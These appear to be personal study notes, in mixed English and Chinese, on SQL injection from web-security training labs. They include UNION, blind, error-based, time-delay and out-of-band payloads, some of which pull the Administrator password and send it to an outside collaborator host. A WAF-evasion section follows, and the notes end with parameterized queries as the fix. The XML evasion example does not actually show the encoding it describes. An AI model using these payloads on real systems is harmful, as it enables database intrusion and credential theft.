


# 1. First-order SQL

First-order SQL injection occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.

## 1.1 Union

### 1.1.1 method

```sql
' ORDER BY 1-- 

' ORDER BY 2-- 

' ORDER BY 3-- etc.

' UNION SELECT NULL-- 

' UNION SELECT NULL,NULL-- 

' UNION SELECT NULL,NULL,NULL-- etc. 
```

(All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.)

### 1.1.2 Finding columns with a useful data type

```sql
' UNION SELECT 'a',NULL,NULL,NULL-- 

' UNION SELECT NULL,'a',NULL,NULL-- 

' UNION SELECT NULL,NULL,'a',NULL-- 

' UNION SELECT NULL,NULL,NULL,'a'--
```

### 1.1.3 Using a SQL injection UNION attack to retrieve interesting data

```sql
' UNION SELECT username, password FROM users--
```

### 1.1.4 Retrieving multiple values within a single column

```sql
' UNION SELECT username || '~' || password FROM users--
```

This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character.


The results from the query contain all the usernames and passwords, for example:

```sql
... administrator~s3cure
wiener~peter
carlos~montoya ...
```

Different databases use different syntax to perform string concatenation. For more details, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).


## 1.2 Blind SQL injection vulnerabilities

### 1.2.1 Exploiting blind SQL injection by triggering conditional responses

```sql
…xyz' AND '1'='1 …xyz' AND '1'='2
```

- The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.


确定有user表: (SELECT 'a' FROM users LIMIT 1) = 'a'

如果你写的子查询： `(SELECT 'a' FROM users)` 如果 `users` 表里有 100 个用户，这个查询会返回 100 个 `'a'`。

当你拿 **100个 'a'** 去跟右边的 **1个 'a'** 做比较时 (`= 'a'`)，数据库会报错说：“子查询返回了多行数据，我没法比！”。这会导致注入失败。

加上 `LIMIT 1` 确保了只返回**一个值**


We can continue this process to systematically determine the full password for the `Administrator` user:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```


### 1.2.2 Error-based SQL injection

#### Exploiting blind SQL injection by triggering conditional errors

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

step：

```
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

`WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.


#### Extracting sensitive data via verbose SQL error messages

```sql
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

You can use the `CAST()` function to achieve this. It enables you to convert one data type to another. For example, imagine a query containing the following statement:

```sql
CAST((SELECT example_column FROM example_table) AS int)
```


### 1.2.3 Exploiting blind SQL injection by triggering time delays

For example, on Microsoft SQL Server

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--
```

Using this technique, we can retrieve data by testing one character at a time:

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```


### 1.2.4 Exploiting blind SQL injection using out-of-band (OAST) techniques

 [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)

```sql
1rpCQQe5rZwcoObH'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//9akut2hj5zvno7g5d4g5pdw4kvqmef24.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

 (URL解码后)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
    <!ENTITY % remote SYSTEM "http://9akut2hj5zvno7g5d4g5pdw4kvqmef24.oastify.com/"> 
    %remote;
]>
```


Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:

```sql
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

官方答案 (Oracle 版本):

```
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

URL 解码后:

```sql
x' UNION SELECT EXTRACTVALUE(xmltype('
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [ 
        <!ENTITY % remote SYSTEM "http://
            '||(SELECT password FROM users WHERE username='administrator')||'
            .BURP-COLLABORATOR-SUBDOMAIN/"> 
        %remote;
    ]>
'),'/l') FROM dual--
```


# 2 Second-order SQL injection

First-order SQL injection occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.

Second-order SQL injection occurs when the application takes user input from an HTTP request and stores it for future use.

Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way.

# 3 Examining the database

The following are some queries to determine the database version for some popular database types:

| Database type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

For example,

```sql
' UNION SELECT @@version--
```

query `information_schema.tables` to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```

query `information_schema.columns` to list the columns in individual tables:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```


# 4 SQL injection in different contexts

In the previous labs, you used the query string to inject your malicious SQL payload. However, you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database.

These different formats may provide different ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often look for common SQL injection keywords within the request, so you may be able to bypass these filters by encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`:

```xml
<stockCheck>    <productId>123</productId>    <storeId>999 SELECT * FROM information_schema.tables</storeId> </stockCheck>
```

This will be decoded server-side before being passed to the SQL interpreter.







# 5 prevent sql vul

parameterized queries

```sql
PreparedStatement statement = connection.prepareStatement(    "SELECT * FROM products WHERE category = ?" ); statement.setString(1, input);
```

